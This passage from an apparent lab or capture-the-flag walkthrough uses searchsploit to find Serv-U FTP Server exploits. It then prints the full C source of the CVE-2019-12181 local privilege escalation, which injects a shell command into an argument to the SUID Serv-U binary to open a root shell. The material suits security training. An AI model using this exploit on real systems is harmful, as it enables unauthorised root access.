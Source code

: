 ```
Serv-U FTP Server 7.3 - (Authenticated) Remote FTP File Replacement                                    | windows/remote/6661.txt
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                            | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                            | multiple/local/47173.sh
Serv-U Web Client 9.0.0.5 - Remote Buffer Overflow (1)                                                 | windows/remote/9966.txt
Serv-U Web Client 9.0.0.5 - Remote Buffer Overflow (2)                                                 | windows/remote/9800.cpp
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Just a few results there. And with out version (from the log) of 15.1.6.25 we spot 2 local priv esc vulns that might be worth checking (specially with the SUID bit set which means the app runs as the owner and not as the user who started it).
If you want to check the exploit out online, browse here [Exploit DB - Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)](https://www.exploit-db.com/exploits/47009)
```
searchsploit -m 47009
```
This copies the exploit code to a local file. Lets take a look at it.
```
cat 47009.c

/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```
Seems like a fairly simple priv esc.
